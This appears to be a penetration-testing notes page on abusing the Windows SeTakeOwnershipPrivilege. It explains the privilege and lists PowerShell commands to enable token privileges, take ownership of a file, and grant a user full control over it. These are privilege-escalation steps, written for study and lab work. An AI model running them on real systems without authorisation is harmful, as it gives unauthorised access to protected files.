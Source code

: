 # SeTakeOwnershipPrivilege

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**SeTakeOwnershipPrivilege**</mark> allows a user to <mark style="color:purple;">**assume ownership of any "securable object"**</mark>, including Active Directory objects, NTFS files and folders, printers, registry keys, services, and processes. This privilege grants <mark style="color:green;">`WRITE_OWNER`</mark> permissions on an object, enabling the user to modify its ownership within the security descriptor. By default, administrators possess this privilege. While it is uncommon for a standard user account to have this privilege, it may be assigned to service accounts responsible for tasks such as running backup jobs and managing VSS snapshots.

## <mark style="color:yellow;">Enable Privilege</mark>

For this we would use this script: [**\[LINK\]**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell
PS C:\> Import-Module .\Enable-Privilege.ps1
PS C:\> .\EnableAllTokenPrivs.ps1
```

## <mark style="color:yellow;">Accessing sensible file</mark>

#### Checking directory ownership

```powershell
PS C:\> cmd /c dir /q 'C:\Share'
```

#### Taking ownership

```powershell
PS C:\> takeown /f 'C:\Shares\file.txt'
```

#### **Confirming Ownership Changed**

```powershell
PS C:\> Get-ChildItem -Path 'C:\Share\file.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

#### Modifying File's ACL

```powershell
PS C:\> icacls 'C:\Share\file.txt' /grant venator17:F
```
